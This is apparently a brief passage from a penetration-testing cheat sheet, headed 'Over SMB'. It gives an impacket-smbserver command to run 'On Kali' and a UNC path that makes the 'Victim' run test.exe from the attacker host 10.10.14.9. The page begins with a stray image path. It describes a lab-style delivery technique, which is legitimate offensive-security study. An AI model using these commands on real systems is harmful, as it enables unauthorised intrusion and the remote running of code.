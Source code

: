## Over SMB

On Kali
```
impacket-smbserver test1 `pwd`
```

On Victim
```
\\10.10.14.9\test1\test.exe
```
